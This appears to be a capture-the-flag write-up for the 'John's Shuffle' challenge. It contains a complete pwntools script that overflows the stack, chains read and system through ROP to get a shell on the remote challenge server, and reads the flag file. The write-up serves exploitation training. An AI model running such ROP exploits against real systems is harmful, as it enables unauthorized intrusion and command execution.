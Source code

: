 # John's Shuffle
John is completely drunk and unable to protect his poor stack.. Fortunately he can still count on his terrific shuffling skills.

```
>>> from pwn import *
>>> elf = ELF('johns-shuffle')
    Arch:          i386-32-little
    RELRO:         Partial RELRO
    Stack Canary:  No canary found
    NX:            NX enabled
    PIE:           No PIE
```

## Recon
The first shot at overflowing by throwing a ton of `A`'s worked. We don't actually know what the vulnerbility was, as I didn't open the binary in IDA.

Once we have control of EIP, and the fact that NX is on, we have to start ROP'ing. Using `pwntools`, We immediately see that we have `system` in our binary, but not the string `/bin/sh`. In order to ROP into `system` we have to have a pointer to the string `/bin/sh`. No worries though, because we also have `read` in our binary. 

## Exploit
* Overflow the stack to control EIP.
* ROP into the following chain:
    * `read` to read an additional input of `/bin/sh` into the .bss segment
    * `system` into the .bss segment where we read our `/bin/sh` string
* ???
* Profit

The binary itself randomizes the GOT each connection, so the exploit can take a while to actually land while waiting for our `system` and `read` addresses to line up properly. Give it a bit, and the exploit lands perfectly.

### Exploit code
```python
from pwn import *

elf = ELF('johns-shuffle')
rop = ROP(elf)

add_esp_8 = rop.pivots[8]
system = elf.symbols['system']

# Found system in ELF
log.info("System: {}".format(hex(system)))

# ROP shellcode
# read '/bin/sh' into a known location
# call /bin/sh from known location via system
rop.read(0, elf.bss(), 8)
rop.system(elf.bss())

# Set up our payload 
payload = 'b' * 166
payload += str(rop)
payload += cyclic(1000)

print rop.dump()

log.info("You can walk away.. this might take while..")
log.info("Waiting on the randomization to work")
while True:
    try:
        # r = process('./johns-shuffle')
        with remote('shuffle.polictf.it', 80) as r:

            # Debug code
            '''
            gdb.attach(r, """
            bp {}
            c
            """.format(hex(elf.symbols['read'])))
            '''

            # PWN
            r.sendline(payload)

            # Sleep enough to wait for the read() call to hit
            sleep(0.2)

            # Write /bin/sh in the .bss segment to use with our system() ROP
            r.sendline('/bin/sh\x00')

            # Command to send to our new shell
            r.sendline('cat /home/ctf/flag')

            # Be sure to retrieve the flag from the socket
            for _ in xrange(4):
                output = r.recv()
                if 'flag' in output.lower():
                    log.info('FLAG: {}'.format(output))
                    raw_input()
    except:
        pass
```
